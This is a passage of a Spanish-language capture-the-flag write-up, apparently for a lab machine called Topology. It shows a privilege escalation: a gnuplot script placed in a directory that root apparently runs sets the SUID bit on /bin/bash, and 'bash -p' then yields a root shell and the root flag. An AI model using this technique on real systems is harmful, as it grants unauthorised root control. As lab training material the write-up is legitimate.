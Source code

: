 ```bash
root
```

En este caso, reemplazaremos el contenido de `gzzcoo.plt` para que en este caso asigne permisos de `SUID`sobre el binario `/bin/bash`. Verificamos que se el script sigue estando en el directorio mencionado y dispone de los permisos de ejecución.

Después de un breve tiempo, revisamos el binario `/bin/bash` y comprobamos que se le han asignado los permisos de `SUID`, con lo cual finalmente logramos convertirnos en usuario `root` y visualizamos la flag **root.txt** &#x20;

```bash
vdaisley@topology:/opt$ echo 'system "chmod u+s /bin/bash";' > /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.plt
-rwxrwxr-x 1 vdaisley vdaisley 30 Feb 16 19:10 /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:/opt$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
df00d35bed**************************
```

